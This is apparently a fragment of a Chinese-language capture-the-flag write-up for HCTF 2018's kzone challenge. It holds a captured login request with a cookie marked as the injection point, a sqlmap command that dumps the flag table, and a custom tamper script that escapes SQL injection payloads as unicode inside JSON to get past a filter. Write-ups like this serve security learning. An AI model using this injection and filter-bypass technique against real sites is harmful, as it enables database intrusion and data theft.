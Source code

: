 或者用 --proxy=http://ip:port 来配合 burp 抓包学习

## sqlmap 脚本

a.txt:

```python
POST /admin/list.php HTTP/1.1
Host: kzone.2018.hctf.io
Content-Length: 33
Cache-Control: max-age=0
Origin: http://kzone.2018.hctf.io
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Referer: http://kzone.2018.hctf.io/admin/login.php
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.1.3,1,2,3,4
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=7notm2n004aen7oln00ohd9ei3; islogin=1; login_data=*
Connection: close

user=rr123&pass=rr123&login=Login
```

Command:

`python sqlmap.py -r a.txt --tamper=hctf --dbs --dbms=mysql --thread=10 -D hctf_kouzone -T F1444g -C F1a9 --dump -v3`

tamper/hctf.py

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    data = '''{"admin_user":"%s"};'''
    payload = payload.lower()

    payload = payload.replace('u', '\u0075')
    payload = payload.replace('o', '\u006f')
    payload = payload.replace('i', '\u0069')
    payload = payload.replace('\'', '\u0027')
    payload = payload.replace('\"', '\u0022')
    payload = payload.replace(' ', '\u0020')
    payload = payload.replace('s', '\u0073')
    payload = payload.replace('#', '\u0023')
    payload = payload.replace('>', '\u003e')
    payload = payload.replace('<', '\u003c')
    payload = payload.replace('-', '\u002d')
    payload = payload.replace('=', '\u003d')
    payload = payload.replace('f1a9', 'F1a9')
    payload = payload.replace('f1', 'F1')
    return data % payload
```
